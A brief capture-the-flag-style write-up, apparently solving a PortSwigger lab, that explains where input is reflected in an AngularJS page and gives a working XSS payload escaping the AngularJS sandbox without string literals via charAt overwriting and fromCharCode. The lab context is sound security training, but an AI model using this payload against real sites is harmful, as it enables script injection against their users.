


XSS with AngularJS sandbox escape without strings
Check where the
request(example: daniele93) is been reflected.
We can note that is been reflected in
AngularJS sandbox because it is inside
angular.module We can check the explanation of the payload below in the father
chapter
XSS
into Angular JS sandbox in the chapter “
Constructing an advanced AngularJS sandbox escape”
above
/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
Bibliography:https://portswigger.net/web-security/cross-site-scripting/contexts/angularjs-sandbox/lab-angular-sandbox-escape-without-strings